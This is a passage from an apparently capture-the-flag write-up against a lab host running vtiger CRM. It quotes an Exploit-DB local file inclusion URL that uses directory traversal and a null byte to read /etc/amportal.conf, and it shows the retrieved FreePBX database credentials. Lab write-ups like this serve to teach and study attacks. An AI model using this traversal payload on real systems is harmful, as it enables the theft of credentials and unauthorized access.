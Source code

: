 Looking at the output from searchsploit, let's check out the first entry:

{% embed url="https://www.exploit-db.com/exploits/37637" %}

This exploit contains a perl script, with the following commented line:

> \#LFI Exploit: /vtigercrm/graph.php?current\_language=../../../../../../../..//etc/amportal.conf%00\&module=Accounts\&action

Let's use this in the browser to see if it works:

> [https://10.10.10.7/vtigercrm/graph.php?current\_language=../../../../../../../..//etc/amportal.conf%00\&module=Accounts\&action](https://10.10.10.7/vtigercrm/graph.php?current\_language=../../../../../../../..//etc/amportal.conf%00\&module=Accounts\&action)

It works, we get back the "amportal.conf" file, and if we view page source, we see a nicely formatted version of the file, which contains a bunch of creds:

![](<../../.gitbook/assets/8 (3).JPG>)

![](<../../.gitbook/assets/9 (3).JPG>)

```
# FreePBX Database configuration
# AMPDBHOST: Hostname where the FreePBX database resides
# AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
# AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
# AMPDBUSER: Username used to connect to the FreePBX database
# AMPDBPASS: Password for AMPDBUSER (above)
# AMPENGINE: Telephony backend engine (e.g. asterisk)
# AMPMGRUSER: Username to access the Asterisk Manager Interface
# AMPMGRPASS: Password for AMPMGRUSER
#
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
```